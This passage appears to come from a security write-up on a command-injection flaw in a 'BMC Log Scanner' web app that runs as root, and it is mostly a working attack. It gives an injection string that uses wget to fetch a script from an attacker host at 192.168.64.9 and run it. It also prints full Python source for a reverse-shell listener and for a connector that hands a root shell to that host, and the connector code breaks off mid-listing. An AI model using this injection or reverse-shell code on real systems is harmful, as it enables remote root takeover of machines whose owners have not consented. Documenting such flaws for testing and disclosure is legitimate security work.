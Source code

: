 This vulnerability can also be used to initiate a reverse shell connection back to one of the Pilot hosts with no access required by the attacker besides being able to reach the web app. Since the service runs as root, the interactive shell has root privileges on the App host. The process for this is slightly more involved and requires the following steps:

-   Write a Python script that will open a port and listen for a connection. Store that on a Pilot host.
-   Start the listener on the Pilot host.
-   Write a Python script that will connect to a listener for a reverse shell and store that on a Pilot host.
-   Start a Python web host on the Pilot host.
-   Enter the following command injection code on the BMC Log Scanner:
	-  <code> ;";wget 192.168.64.9:8000/connector.py -O /tmp/connector.py;python /tmp/connector.py</code>
	-   The code above will cause the APP server to connect back to the Pilot server to pick up the connector.py script and then run the connector.py script.

The process can be seen below:

Running the listener using the Python3 binary available on the system:
<image src="/images/05.png"></image>
<br>
Running the web server:
<image src="/images/06.png"></image>
<br>

Entering the command - in this case, the web page simply hung at this screen:
<image src="/images/07.png"></image>
<br>

And the listener received a connection. The id and ip a commands were run after the connection was established to confirm the machine that the shell was opened from:
<image src="/images/08.png"></image>
<br>

## References:

The code for the Python3 listener is below:
<pre>
<code>import socket, sys, time
​def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    ​while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()
        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)
        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])
listen("0.0.0.0",8001)
The code for connecting to the listener is below:
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.64.9",8001));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);